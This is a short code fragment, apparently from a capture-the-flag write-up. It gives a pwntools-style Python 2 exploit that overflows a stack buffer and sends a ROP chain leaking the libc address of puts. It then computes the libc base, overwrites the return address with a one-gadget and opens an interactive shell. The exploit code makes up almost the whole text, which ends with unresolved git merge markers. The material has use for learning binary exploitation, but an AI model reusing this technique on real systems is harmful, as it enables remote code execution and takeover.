 ```

# Fill up the space between the start of our input and the return address
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Send the rop chain to print libc address of puts
# then loop around to the start of main

sendVal(popRdi)
sendVal(putsGot)
sendVal(putsPlt)
sendVal(startMain)

# Send done so our code executes
target.sendline('done')

# Print out the target output
print target.recvuntil('BON VOYAGE!\n')

# Scan in, filter out the libc infoleak, calculate the base
leak = target.recv(6)
leak = u64(leak + "\x00"*(8-len(leak)))
base = leak - libc.symbols['puts']

print "libc base: " + hex(base)

# Fill up the space between the start of our input and the retun address
# For the second round of exploiting the bug
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Overwrite the return address with a onegadget
sendVal(base + oneShot)

# Send done so our rop chain executes
target.sendline('done')

target.interactive()
<<<<<<< HEAD
```
=======
```
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
